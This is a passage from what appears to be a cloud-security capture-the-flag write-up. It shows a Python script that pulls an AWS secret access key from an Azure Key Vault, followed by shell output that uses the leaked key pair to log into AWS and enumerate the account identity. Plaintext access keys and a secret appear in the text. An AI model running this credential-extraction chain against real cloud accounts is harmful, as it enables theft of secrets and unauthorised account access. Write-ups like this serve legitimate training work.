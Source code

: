 ### Extracting the _AWS Secret Access Key_ from the _Azure Key Vault_

Rather than attempting to find the Azure CLI equivalent of the source code, we will instead create a copy of it and tune it accordingly to suit our purpose of extracting the _AWS Secret Access Key_ from the _Azure Key Vault_.

```python
import boto3
import requests
import json

import azure.functions as func
from azure.identity import DefaultAzureCredential 
from azure.keyvault.secrets import SecretClient

functionName = "event-webservice"
keyName = "AKIA5G4XMRW7TLT6XD7R"

# Changed from ManagedIdentityCredential() to DefaultAzureCredential()
identity = DefaultAzureCredential()
secretClient = SecretClient(vault_url="https://olympurr-aws.vault.azure.net/", credential=identity)
secret = secretClient.get_secret(keyName).value

print("AWS Secret Access Key:", secret)
```

After installing the required libraries and running this script, we successfully retrieved the _AWS Secret Access Key_:

```bash
$ python3 export.py
AWS Secret Access Key: fgQdSIETJp/yBKwWbmf2SprGa2eXWyqgkeeIdWtL
```

### Enumerating AWS Account



We then proceed to use the AWS CLI tool to sign into AWS.

```bash
$ aws configure
AWS Access Key ID [None]: AKIA5G4XMRW7TLT6XD7R
AWS Secret Access Key [None]: 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
Default region name [None]: ap-southeast-1
Default output format [None]: json
$ aws sts get-caller-identity
{
    "UserId": "AIDA5G4XMRW7UAWT26Q6Q",
    "Account": "908166204863",
    "Arn": "arn:aws:iam::908166204863:user/azure_user"
}
```
